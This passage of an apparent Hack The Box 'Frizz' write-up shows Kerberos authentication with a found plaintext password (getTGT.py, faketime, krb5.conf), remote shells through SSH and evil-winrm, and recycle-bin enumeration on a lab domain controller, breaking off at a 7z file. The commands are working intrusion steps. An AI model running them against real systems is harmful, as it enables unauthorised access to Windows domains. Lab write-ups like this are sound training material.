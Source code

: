 We can easily fix the clock skew with `faketime`:

```console
$ faketime "$(ntpdate -q frizz.htb | cut -d ' ' -f 1,2)" bash
$ getTGT.py frizz.htb/f.frizzle:Jenni_Luvs_Magic23
$ nxc smb frizz.htb -k -d frizz.htb --use-kcache
SMB         frizz.htb       445    frizz            [*]  x64 (name:frizz) (domain:htb) (signing:True) (SMBv1:False)
SMB         frizz.htb       445    frizz            [-] frizz.htb\ from ccache STATUS_MORE_PROCESSING_REQUIRED
```

I still got errors, so I tried using SSH since this port is open. First make sure that the `/etc/krb5.conf` looks as follows:

```
[libdefault]
        default_realm = FRIZZDC.FRIZZ.HTB
        dns_lookup_realm = false
        dns_lookup_kdc = true
        ticket_lifetime = 24h
        forwardable = true

[realms]
        FRIZZ.HTB = {
                kdc = frizzdc.frizz.htb
                admin_server = frizzdc.frizz.htb
        }

[domain_realm]
        frizz.htb = FRIZZ.HTB
        .frizz.htb = FRIZZ.HTB
```

Next we can connect.

```console
$ KRB5CCNAME=f.frizzle.ccache ssh f.frizzle@frizz.htb
PS C:\Users\f.frizzle> cat Desktop\user.txt
```

Alternatively, we can also use EvilWinRM.

```console
$ KRB5CCNAME=f.frizzle.ccache evil-winrm -i frizzdc.frizz.htb -r FRIZZ.HTB
*Evil-WinRM* PS C:\Users\f.frizzle\Documents>
```

## Root
First we can try running SharpHound and import our data into BloodHound CE but there is not something that jumps out. For the next part I was stuck for a while enumerating every single directory. Eventually I stumbled upon a file in the recycle bin:

```console
PS C:\Users\f.frizzle> cmd /c cmd.exe
Microsoft Windows [Version 10.0.20348.3207]
(c) Microsoft Corporation. All rights reserved.

frizz\f.frizzle@FRIZZDC C:\Users\f.frizzle> cd C:\$Recycle.Bin
frizz\f.frizzle@FRIZZDC C:\$RECYCLE.BIN> dir /a

10/29/2024  07:31 AM    <DIR>          .
03/10/2025  03:39 PM    <DIR>          ..
10/29/2024  07:31 AM    <DIR>          S-1-5-21-2386970044-1145388522-2932701813-1103

frizz\f.frizzle@FRIZZDC C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103> dir

10/29/2024  07:31 AM               148 $IE2XMEG.7z
```